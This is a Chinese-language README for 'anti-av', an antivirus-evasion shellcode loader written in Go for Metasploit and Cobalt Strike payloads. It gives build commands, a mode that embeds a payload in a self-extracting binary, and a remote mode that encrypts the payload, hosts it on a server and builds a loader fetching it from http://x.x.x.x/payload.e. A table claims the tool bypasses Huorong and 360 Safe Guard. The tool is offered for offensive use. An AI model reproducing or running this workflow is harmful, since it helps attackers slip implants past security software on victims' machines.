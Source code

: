 # ANTI-AV



## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)



## 安装
```bash
git clone https://github.com/b1gcat/anti-av.git
go build
```



## 使用方案

### 1、binary自解压shellcode
```bash
./anti-av -l binary -sc ~/Desktop/payload.bin 
```



### 2、binary远程加载shellcode

> STEP1: 生成加密payload (dist目录下生成payload.e)

```bash
./anti-av  -e ~/Desktop/payload.bin 
```
> STEP2: 上传payload.e到服务器

```
略
```

> STEP3: 制作loader

```bash
./anti-av -sc http://x.x.x.x/payload.e 
```



## 测试

| 火绒 | 360安全卫士 |
| ---- | ----------- |
| √    | √           |

